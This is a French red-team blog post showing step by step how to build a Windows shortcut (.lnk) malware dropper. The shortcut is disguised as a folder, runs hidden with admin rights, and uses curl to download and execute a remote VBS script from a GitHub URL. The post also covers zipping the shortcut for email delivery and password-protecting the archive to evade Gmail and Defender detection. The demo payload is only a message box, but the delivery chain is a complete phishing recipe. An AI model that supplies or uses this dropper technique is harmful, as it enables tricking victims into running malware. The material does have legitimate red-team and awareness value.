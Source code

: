 ```yaml
---
published: true
layout: post
title: "Exploitation des raccourcis Windows pour exécuter des malwares"
description: "Cet article décrit comment exploiter les raccourcis Windows pour exécuter un malware."
lang: fr_FR
category: redteam,malware,raccourci,dropper
---
```

![Exploitation des raccourcis Windows pour exécuter des malwares](/assets/images/2021-03-17-Creation-dropper-raccourci-malware/illustration.jpg)

# Exploitation des raccourcis Windows pour exécuter des malwares

Sur le système d'exploitation Windows, un raccourci est un petit fichier (de 1 ko à 2 ko) qui redirige vers un autre fichier.
Ils permettent d'ouvrir un fichier ou exécutable directement, sans avoir à spécifier son chemin.
Par exemple pour ouvrir le fichier *C:\Program Files\Mozilla Firefox\firefox.exe*, il est beaucoup plus rapide de double-cliquer sur un raccourci **Mozilla Firefox.lnk** (.lnk vient de link en anglais) placé sur le bureau que de s'y rendre via l'Explorateur Windows.
Il est possible de **spécifier un ou des arguments aux raccourcis Windows**. Le raccourci étant un fichier, il est également **possible de le compresser dans un ficher .zip**.

Partant de ce postulat, un attaquant pourrait créer un **raccourci malveillant** dans le but d'exécuter un logiciel malveillant sur l'ordinateur de la victime. L'avantage du raccourci est qu'il est **très léger et peut prendre n'importe quelle extension**.

## Exploitation
Pour commencer, un raccourci va être crée qui exécutera un simple `Hello World` en PowerShell. Pour ce faire, il faut simplement mettre en cible l'exécutable commun à tous les PC : `cmd.exe` :

`C:\Windows\System32\cmd.exe /c "powershell -command "[reflection.assembly]::LoadWithPartialName('System.Windows.Forms')|out-null;[windows.forms.messagebox]::Show('Hello World')""`

L'îcone du raccourci est changé pour le faire ressembler à un dossier, l'extension est également supprimée :

[![Raccourci Hello World sous forme de dossier](/assets/images/2021-03-17-Creation-dropper-raccourci-malware/hello_world.PNG)](/assets/images/2021-03-17-Creation-dropper-raccourci-malware/hello_world.PNG)
*Note : J'ai dans ce scénario d'exploitation créé un raccourci sous forme de dossier mais j'aurais très bien pu également créer un fichier .txt avec l'extension de fichier texte. Même si les extensions de fichiers connus sont affichées, l'extension du raccourci malveillant serait .txt*

L'exécution du raccourci donne alors le résultat suivant :

[![Exécution du raccourci Hello World sous forme de dossier](/assets/images/2021-03-17-Creation-dropper-raccourci-malware/execution_hello_world.PNG)](/assets/images/2021-03-17-Creation-dropper-raccourci-malware/execution_hello_world.PNG)

L'étape suivante est maintenant de personnaliser au maximum l'exécution de l'invité de commande. En effet, les options du raccourci permettent de minimiser la fenêtre au lancement, la rendre transparente, définir une taille de fenêtre...

La configuration de la fenêtre est modifiée :

[![Exécution du raccourci Hello World sous forme de dossier](/assets/images/2021-03-17-Creation-dropper-raccourci-malware/taille_fenetre.PNG)](/assets/images/2021-03-17-Creation-dropper-raccourci-malware/taille_fenetre.PNG)

Les couleurs sont modifiées afin de définir le fond et l'écriture en noir, l'opacité à 30% :

[![Exécution du raccourci Hello World sous forme de dossier](/assets/images/2021-03-17-Creation-dropper-raccourci-malware/couleurs.PNG)](/assets/images/2021-03-17-Creation-dropper-raccourci-malware/couleurs.PNG)

La police d'écriture est réduite au maximum :

[![Exécution du raccourci Hello World sous forme de dossier](/assets/images/2021-03-17-Creation-dropper-raccourci-malware/police_ecriture.PNG)](/assets/images/2021-03-17-Creation-dropper-raccourci-malware/police_ecriture.PNG)

Enfin, la fonctionnalité la plus intéressante est la possibilité d'exécuter le raccourci (l'invité de commande) en tant qu'**administrateur** :
[![Exécution du raccourci Hello World sous forme de dossier](/assets/images/2021-03-17-Creation-dropper-raccourci-malware/proprietees_avancees.PNG)](/assets/images/2021-03-17-Creation-dropper-raccourci-malware/proprietees_avancees.PNG)

L'étape suivante est la modification du raccourci pour exécuter un script VBS dont le contenu sera tout simplement un message box pour cet exemple. Je précise que j'exécute un message box car le *dropper* sous forme de raccourci n'a pas pour vocation d'évader l'exécutable malveillant de la détection de l'antivirus mais bien de créer un fichier qui parraît légitime pour exécuter un logiciel malveillant. Le but final est donc l'envoi par mail par exemple pour faire cliquer l'utilisateur.
Voici le contenu du script VBS :

`MsgBox "Je suis un malware écrit en VBS et hébergé sur GitHub"`

L'étape suivante est la création de la charge qui téléchargera le malware VBS ou .exe ou tout autre format. Je précise que j'utilise curl (natif sous Windows 10) et non PowerShell car même dans un raccourci, PowerShell est détecté par Windows Defender.

Autre point important, la cible du raccourci ne doit pas faire plus de 259 caractères. Petite astuce, il est possible d'optimiser le noms des fichiers pour gagner de la place. Il est également possible d'acheter un nom domaine très court et d'héberger le fichier malveillant à la racine.

Voici le contenu de la charge :

`C:\Windows\System32\cmd.exe /c "curl https://raw.githubusercontent.com/CLeBeRFR/a/main/b.vbs -o %appdata%\b.vbs && %appdata%\b.vbs"`

Le raccourci final donc donc :
[![Création charge raccourci malveillant](/assets/images/2021-03-17-Creation-dropper-raccourci-malware/charge_malware.PNG)](/assets/images/2021-03-17-Creation-dropper-raccourci-malware/charge_malware.PNG)


## Compression du fichier raccourci malveillant
Le fichier doit maintenant être compressé en ligne de commande. Il n'est pas possible de passer par l'interface graphique car le raccourci pointe vers la CMD et 7Zip compressera donc cmd.exe.
[![Compression du malware](/assets/images/2021-03-17-Creation-dropper-raccourci-malware/compression_malware.PNG)](/assets/images/2021-03-17-Creation-dropper-raccourci-malware/compression_malware.PNG)

## Extraction du malware par la victime
Une fois que le malware est envoyé, lorsque la victime le décompressera, elle obtiendra tout d'abord un vrai dossier :
[![Décompression du malware](/assets/images/2021-03-17-Creation-dropper-raccourci-malware/extraction_malware.PNG)](/assets/images/2021-03-17-Creation-dropper-raccourci-malware/extraction_malware.PNG)

Une fois entré dans ce dossier, le vrai raccourci malveillant est présent :
[![Ouverture du dossier malveillant](/assets/images/2021-03-17-Creation-dropper-raccourci-malware/ouverture_dossier.PNG)](/assets/images/2021-03-17-Creation-dropper-raccourci-malware/ouverture_dossier.PNG)

Le malware est alors téléchargé et exécuté :
[![Exécution du malware](/assets/images/2021-03-17-Creation-dropper-raccourci-malware/execution_malware.PNG)](/assets/images/2021-03-17-Creation-dropper-raccourci-malware/execution_malware.PNG)

La victime est alors piégé et la suite dépend du malware exécuté...

Pour terminer, j'ajouterais qu'un attaquant chiffrera probablement le nom des fichiers de l'archive et mettra un mot de passe à l'archive car Gmail par exemple détecte quand même la pièce jointe comme malveillante. Cependant, mettre un mot de passe dans des dossiers envoyés par mail peut paraître légitime pour la victime.
L'archive peut également être envoyée via un service comme [FromSmash](https://fromsmash.com/) ou hebergée sur un site.